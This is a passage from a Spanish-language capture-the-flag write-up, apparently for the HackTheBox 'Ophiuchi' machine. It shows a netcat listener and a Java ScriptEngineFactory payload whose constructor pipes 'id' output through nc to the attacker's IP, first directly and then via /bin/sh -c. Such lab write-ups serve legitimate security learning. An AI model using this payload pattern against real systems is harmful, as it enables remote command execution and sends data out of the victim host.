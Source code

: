 Perfecto y si esperamos un momento en nuestro listener de `nc` tenemos:

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
10.10.10.227: inverse host lookup failed: Host name lookup failure
connect to [10.10.14.51] from (UNKNOWN) [10.10.10.227] 48976
```

Vale vale, tamo bieeen. Tenemos ejecución remota de comandos en el sistema, intentemos ahora saber que usuario somos (además que nos sirve para validar si podemos ejecutar varios comandos sin problemas):

```java
...
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("id | nc 10.10.14.51 4433");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
...
```

Compilamos, escuchamos y ejecutamos en la web, en `Python` todo correctísimo, pero en `nc` no recibimos nada... Jugando con la sintaxis no logre nada, asi que podemos tomar el `Runtime.getRuntime().exec()` y buscar como ejecutar comandos en `linux` con él. Obtuvimos una charlita:

* [Stackoverflow - Java Exec Linux Command](https://stackoverflow.com/questions/12097095/java-exec-linux-command).

![315google_stackoverflow_java_linux_command](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/ophiuchi/315google_stackoverflow_java_linux_command.png)

Bien, probemos con esa sintaxis:

```java
...
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {

            String [] cmd = {
                "/bin/sh",
                "-c",
                "id | nc 10.10.14.51 4433"
            };

            Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
...
```
